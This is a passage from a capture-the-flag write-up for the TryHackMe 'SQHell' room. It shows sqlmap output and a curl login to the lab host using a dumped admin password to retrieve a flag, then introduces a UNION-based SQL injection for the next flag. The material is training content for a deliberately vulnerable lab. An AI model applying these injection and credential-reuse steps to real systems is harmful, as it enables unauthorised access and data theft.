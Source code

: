 ```text
[22:41:21] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:41:21 /2021-06-09/
```

With the password found for the admin user we can either login in via the browser or use curl again to get the flag:

```text
┌──(root💀kali)-[/home/kali/sqhell]
└─$ curl -s -d "username=admin" -d "password=icantrememberthispasswordcanyou" http://sqhell.thm/login
<!DOCTYPE html>
<html lang="en">
<SNIP
<div class="container" style="margin-top:20px">
    <h1 class="text-center">Logged In</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <form method="post">
                <div class="panel panel-default" style="margin-top:50px">
                    <div class="panel-heading">Logged In</div>
                    <div class="panel-body">
                        <div class="alert alert-success text-center" style="margin:10px">
                            <p>THM{FLAG1:<HIDDEN>}</p>
                        </div>
                    </div>
                </div>
            </form>
        </div>
    </div>
</div>
</body>
</html>
```

Ok, that was four different ways to get flag 1. Let's move on to the next flag.

## Flag 5 - In-Band/Union - Browser Method

The next easiest flag is number five. For this one we'll be using parameter tampering and a UNION based exploit. I did another TryHackMe room called Jurassic Park where I used the same techniques as follows, you can see that post [here.](https://pencer.io/ctf/ctf-thm-jurassic-park). There's also helpful articles [here](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example) and [here](https://book.hacktricks.xyz/pentesting-web/sql-injection) that are worth a read.

First let's see what we have:

![sqhell-posts](../assets/images/2021-06-10-22-00-58.png)
